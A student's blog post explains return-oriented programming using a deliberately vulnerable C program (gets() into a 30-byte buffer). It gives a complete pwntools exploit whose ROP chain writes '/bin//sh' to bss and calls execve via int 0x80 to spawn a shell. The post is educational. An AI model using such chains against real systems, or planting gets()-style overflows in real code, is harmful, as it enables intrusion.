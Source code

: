 ```yaml
---
layout: post
title:  "A rop project"
categories: [project]
tags: [ROP]
---
```


In the last semester i attended the computer security course, and since i had to do a project i made a simple program to exploit with a rop chain in order to explain how return oriented programming works.
Here i will explain everything about.
During my presentation i started talk about the fact that during the excution of a program memory is under the constraint Write XOR Execute. Part of the memory that i can write i cannot execute and viceversa.
And so is here where Return Oriented programming come in action, with this technique when a program is vulnerable for example to a buffer overflow i can still execute malicious code even if i can't upload the shellcode directly in the stack.
Supposing to work on a x86 architecture, i have on the stack the base pointer and after that the return address of the function (see the image below).

![My helpful screenshot](/assets/stack1.png)

Here's the code that i wanted to exploit:
{% highlight c %}
include <stdlib.h>
#include <stdio.h>
#include <unistd.h>

void r()
{
	char s[30];
	gets(s);
}

void ouch()
{
	printf("%s\n","hi!!");
}

int main()
{
	r();
	//printf("%s\n",s);	
	printf("%s\n","end!");
	return 0;
}
{% endhighlight %}

So the goal is to overwrite the return address, and consequentially what came after that with addresses of memory that contain little piece of code that terminate with the instruction ret and so on. So i search inside the program this little pieces of code that are called gadget. In this way after one of this little piece of code terminate is execution the next instruction that will be executed will be the one at address2 see the image below.

![My helpful screenshot](/assets/stack2.png)

And so on with this trick is possible execute a shell.
To do all of this i used Radare2(that allow me to search gadget inside the code) and pwntools(that simplify me the construction of the exploit).
All of this was did whit ASLR disabled and no stack canaries, that are two of contromeasures use to avoid this kind of attack.
To do all of this i had to search the right gadgets to make the instructions to execute /bin/sh with correct parameters:
- eax = 0xb
- ebx = address of memory of string "/bin/sh"
- ecx = pointer to pointer of string "/bin/sh"
- edx = env variable but that can be set to 0 with no problem

To simplify things i used the string "/bin//sh" because on linux is ignored the double slash.
So i search the gadgets.
I found pop eax, pob ebx, and pop edx with no problems, the only one problem was for pop ecx see below: (but i decide to maintaned it in order to find a way to patch it).

![My helpful screenshot](/assets/pop_ecx.png)

After that i search the address of the bss in order to have a place to write /bin//sh.
And after that i search the write-what-where gadget that allow me to write ad a specific address a value with the use of two register. In this way using the pop instructions i could set value to register and with this gadget write the memory (the bss).

![My helpful screenshot](/assets/write_mem.png)

To patch the pop ecx i used a pop esi since in the gadget above there was or cl,byte[esi] in order to make the ecx value to not change. NOTE: that this work only because the specific value in the memory, proprably with ASLR i had to change the idea to make this work.
After that i search for xor edx, edx. And in the end i found xor eax, eax and one last instruction that increase the al register, so i called it the number of times to reach the number of the syscall (0xb).
And in the end the int 0x80 to make the syscall.
To clarify i had to add an initial padding to fill the buffer.
In the end once i execute my program i had this:

![My helpful screenshot](/assets/PoC.png)

the ";" is to mantaint the interaction, anyway there is a method in pwntools that i didn't know at the time.
Here's the code of the final exploit.
{% highlight python %}
#!/usr/bin/python
# -*- coding: utf-8 -*-
from pwn import *

DIM_BUF = 42

PAD = "A" * DIM_BUF

pop_eax =  0xf7ffafb5
pop_ebx =  0xf7ff2c21 
pop_ecx = 0xf7ff82f9 
                
pop_edx =   0xf7ff8c15 

pop_esi = 0xf7ff2949

shell1 = "/bin"
shell2 = "//sh"

mem_to_write = 0x56557020
write_the_mem = 0xf7feb47b # mov dword[edx], eax

zero_place = 0x56557040
#copy_zero_to_edx = 0xf7ff2f05

#mov_ecx = 0xf7ff2f19

xor_edx = 0xf7ff0670 
#mov_eax_ff = 0xf7ff1633 
xor_eax = 0xf7ff2534

inc1_eax =  0xf7fd9a96 
int_80 = 0xf7ff2195 

buf = PAD 

buf += p32(pop_edx) 
buf += p32(mem_to_write)
buf += p32(pop_eax)
buf += "/bin"
buf += p32(write_the_mem)
buf += p32(pop_edx) 
buf += p32(mem_to_write + 4)
buf += p32(pop_eax)
buf += "//sh"
buf += p32(write_the_mem)
buf += p32(pop_eax) 
buf += p32(mem_to_write)
buf += p32(pop_edx) 
buf += p32(mem_to_write + 12) 
buf += p32(write_the_mem)
buf += p32(pop_esi)
buf += p32(mem_to_write + 12)
buf += p32(pop_ecx)
buf += p32(mem_to_write + 12)
buf += p32(xor_edx)
buf += p32(mem_to_write) 
buf +="AAAAAAAA" #raw data
buf += p32(xor_eax) 

for i in range(11):
    buf += p32(inc1_eax) 

buf += p32(int_80) 

print(buf)

{% endhighlight %}
Maybe all of this is over simplified and not to much clear, i decided to not explain somethings but i thing that in general the basic idea is ok. However this was my first article so i have a very loooooong road to improve my writing and infosec skills.



